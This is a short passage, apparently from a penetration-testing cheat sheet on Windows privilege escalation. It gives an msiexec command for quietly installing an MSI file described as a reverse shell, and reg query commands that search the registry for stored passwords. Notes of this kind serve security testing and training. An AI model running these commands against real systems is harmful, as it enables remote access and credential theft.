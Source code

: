 ```
msiexec /quiet /qn /i <path to reverse shell> (must use full path, not relative)
```

## Passwords

### But where!?

* **Registry**
  * Search for registry keys with values that contain the keyword "password" (you will probably get a lot of results with not a whole lot of good info)
    * **reg query HKLM /f password /t REG\_SZ /s**
    * **reg query HKCU /f password /t REG\_SZ /s**

![](<../../.gitbook/assets/image (14) (1).png>)
